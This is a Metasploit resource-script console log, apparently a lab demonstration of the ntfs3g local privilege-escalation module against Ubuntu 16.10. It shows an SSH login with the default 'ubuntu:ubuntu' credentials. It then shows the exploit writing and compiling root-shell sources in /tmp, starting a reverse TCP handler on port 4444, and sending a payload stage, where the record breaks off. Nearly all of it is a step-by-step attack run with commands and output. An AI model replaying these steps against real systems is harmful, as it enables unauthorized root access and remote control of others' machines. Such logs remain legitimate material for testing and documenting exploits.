 ### Ubuntu 16.10 (ntfs-3g 1:2016.2.22AR.1-3)

#### Initial Access

    [*] Processing ntfs3g.rc for ERB directives.
    resource (ntfs3g.rc)> use auxiliary/scanner/ssh/ssh_login
    resource (ntfs3g.rc)> set rhosts 192.168.2.197
    rhosts => 192.168.2.197
    resource (ntfs3g.rc)> set username ubuntu
    username => ubuntu
    resource (ntfs3g.rc)> set password ubuntu
    password => ubuntu
    resource (ntfs3g.rc)> exploit
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lxd),115(lpadmin),116(sambashare) Linux ubuntu1610 4.8.0-22-generic #24-Ubuntu SMP Sat Oct 8 09:15:00 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.117:37241 -> 192.168.2.197:22) at 2017-02-25 21:48:06 -0500
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

#### Escalate

    resource (ntfs3g.rc)> use exploit/linux/local/ntfs3g_priv_esc
    resource (ntfs3g.rc)> set verbose true
    verbose => true
    resource (ntfs3g.rc)> set session 1
    session => 1
    resource (ntfs3g.rc)> set target 1
    target => 1
    resource (ntfs3g.rc)> set lhost 192.168.2.117
    lhost => 192.168.2.117
    resource (ntfs3g.rc)> check
    [!] SESSION may not be compatible with this module.
    [+] Vulnerable Ubuntu 16.10 detected
    [*]  The target appears to be vulnerable.
    resource (ntfs3g.rc)> exploit
    [!] SESSION may not be compatible with this module.
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [+] Vulnerable Ubuntu 16.10 detected
    [+] make is installed
    [+] gcc is installed
    [*] Live compiling exploit on system
    [*] Writing files to target
    [*] Writing rootshell to /tmp/rootshell.c
    [*] Max line length is 65537
    [*] Writing 345 bytes in 1 chunks of 1198 bytes (octal-encoded), using printf
    [*] Writing sploit to /tmp/sploit.c
    [*] Max line length is 65537
    [*] Writing 7632 bytes in 1 chunks of 26966 bytes (octal-encoded), using printf
    [*] Writing rootmod to /tmp/rootmod.c
    [*] Max line length is 65537
    [*] Writing 1115 bytes in 1 chunks of 4016 bytes (octal-encoded), using printf
    [*] Writing Makefile to /tmp/Makefile
    [*] Max line length is 65537
    [*] Writing 18 bytes in 1 chunks of 66 bytes (octal-encoded), using printf
    [*] Writing payload to /tmp/ECldPeni
    [*] Max line length is 65537
    [*] Writing 206 bytes in 1 chunks of 567 bytes (octal-encoded), using printf
    [*] Starting execution of priv esc.
    [*] Transmitting intermediate stager...(126 bytes)
    [*] Sending stage (2440248 bytes) to 192.168.2.197
